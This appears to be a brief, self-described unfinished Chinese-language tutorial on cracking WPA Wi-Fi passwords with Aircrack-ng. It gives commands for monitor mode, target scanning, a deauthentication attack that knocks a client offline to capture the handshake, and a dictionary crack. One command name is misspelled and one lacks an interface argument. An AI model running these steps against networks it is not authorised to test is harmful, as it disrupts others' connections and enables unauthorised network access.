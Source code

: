 # Aircrack-ng

[Aircrack-ng 官网](https://www.aircrack-ng.org/)

:::warning
此文档还未完善
:::

## 使网卡进入监听模式

查看当前无线网卡标识

```sh
ip a
```

激活网卡

```sh
airmon-ng start wlan0
```

激活后再次查看网卡标识，会发现名称后面多了个`mon`

## 寻找目标AP

使用`airodump-ng`抓包

```sh
airodump-ng wlan0mon
```

条件
* 有用户已经连上了目标AP。
* 目标的信号足够稳定

需要记住的目标AP相关信息：

* BSSID
* MAC地址
* 频道

## 监听目标频道

假设频道是11，将监听记录写入`ch11`开头的文件中

实际生成的文件名形如 `ch11-01.cap`

```sh
ariodump-ng -c 11 -w ch11 wlan0mon
```

## 等待握手包

当有设备尝试连接目标AP时，airodump-ng就能捕获其握手数据报文。

可以通过 deauth 攻击迫使其他设备重新连接。

首先找一个连上了 airodump-ng 的较活跃的客户端，记住其MAC地址。用`aireplay-ng`命令伪装成该地址向AP发起攻击。

```sh
AP=目标AP的MAC地址
CLIENT=伪装成的客户端MAC地址
aireplay-ng -0 2 -a $AP -c $CLIENT
```

发起攻击后，那个真正的客户端会断网，可能会立即尝试重新连接，于是就可以捕获到握手数据报文了。

## 暴力破解

首先需要拥有字典。

::: info
可以使用Crunch工具生成字典。
:::

```sh
aircrack-ng -w dict.txt ch11-01.cap
```
